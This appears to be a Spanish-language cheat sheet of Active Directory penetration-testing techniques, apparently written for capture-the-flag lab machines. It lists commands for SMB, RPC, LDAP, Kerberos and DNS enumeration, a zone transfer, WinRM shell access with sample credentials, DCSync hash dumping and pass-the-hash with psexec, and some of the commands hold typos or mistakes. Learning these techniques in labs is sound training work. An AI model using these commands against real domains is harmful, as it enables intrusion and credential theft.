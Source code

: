 # Técnicas de directorio activo

## Puertos importantes

- 53: DNS
- 88: Kerberos
- 445: SMB
- 135: Windows RPC
- 389: LDAP
- 5985: Administración remota de windows

## Enumeración

Tecnicas de enumeración de directorio activo

### SMB

Si tiene el puerto 445 lo primero es enumerar con **crackmapexec**, **smbmap**, **smbclient**,....

```bash
# Se averigua nombre de maquina y dominio.
crackmapexec smb 10.10.10.175

# Listar recursos compartidos
crackmapexec smb 10.10.10.175 --shares

# smbmap con session nula
smbmap -H 10.10.10.175 -u 'null'

# smbclient con session nula
smbclient -L 10.10.10.175 -N

```

Poner el dominio en /etc/host.

Si se tiene una credencial válida podemos comprobar el usuario.

```bash
# Si pone pwned podríamos acceder con PSEXEC
crackmapexec smb 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

```

### RPC

Si tiene el puerto 135 podemos enumerar con **rpcclient**.

```bash
# rpcclient con sesion nula
rpcclient -U "" 10.10.10.174 -N

# Enumerar usuarios del dominio:
rcpclient $> enumdomusers

```

### LDAP

Si tiene el puerto 389 podemos enumerar con **ldapsearch**.

```bash
# ldapseacrh -x es simple autentication. traemos los namingcontext
ldapsearch -x -h  10.10.10.174 -N -s base namingcontexts

# ldapseacrh -x es simple autentication. Enumeramos el contexto
ldapsearch -x -h  10.10.10.174 -N -b 'DC=EGOTISTICAL-BANK, DC=LOCAL'
```

### KERBEROS

Si se consiguen usuarios y está el servicio de Kerberos abierto, puerto 88, podemos enumerar con kerbrute y GetNPUsers.

```bash
# kerbrute. Enumera usuarios válidos a partir de un listado
./kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.174 users.txt

# Lo mismo con Impacket
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt
```

### DNS

Si está abierto el puerto 53 podemos intentar un ataque de transferencia de dominio con dig.

```bash
# dig. Enumera los nameservers
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL ns

# dig. Enumera los servidores de correo
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL mx

# dig. Domain Zone Transfer Attack
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL axfr


```

## Administración remota, WINRM

Si está abierto el servicio de administración remota, puerto 5985, podemos atacar el servicio winrm con crackmapexec.

```bash
# Si pone pwned podríamos acceder con evil-winrm
crackmapexec winrm 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

# Acceso a consola por 
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'
```
## Explotación

```bash
# Acceso a consola evil-winrm. Credenciales válidas y servicio de administración remota  
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'
```

```bash
# Acceso a consola rpcclient. Credenciales válidas y SMB. Despues  enumdomusers  
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'
# enumer usuarios del dominio
rpcclient $> enumdomusers
# enumer grupos 
rpcclient $> enumdomgroups
# enumer usuarios de un grupo
rpcclient $> querygroupmem 0x200
# enumer info de un usuario
rpcclient $> queryuser 0x1f4
# Descripciones de los usuarios
rpcclient $> querydispinfo
```
## Escalada de privilegios

### WinPEAS

Subir WinPEAS.exe a la máquina victima y ejecutarlo. Podemos obtener credenciales de autologon.

### BloodHound

Instalar en la maquina atacante neo4j y bloodhound. Previmente instalar Java 11.

```bash
# Instalación  
sudo apt install neo4j bloodhound

# Setear versión de java por defecto a la 11
sudo update-alternatives --config java

# Lanzamos neo4j. Configuramos en http://localhost:7474
sudo neo4j console &> /dev/null & disown

# Abrimos bloodhound 
sudo bloodhound &> /dev/null & disown
```
Buscamos un recolector y lo subimos a la maquina victima.

En el caso de Poweshell SharpHound.ps

### Ataque DCSync

```bash
# Dumpa los HASHSES
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:10.10.10.175

```

### Pass de HASH

Si hemos tenido suerte y tenemos el hash NTLM podemos hacer Pass the HASH con psexec.

```bash
# Pass the hash,
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator:10.10.10.175 cmd.exe -hashes :elhahsahnt

```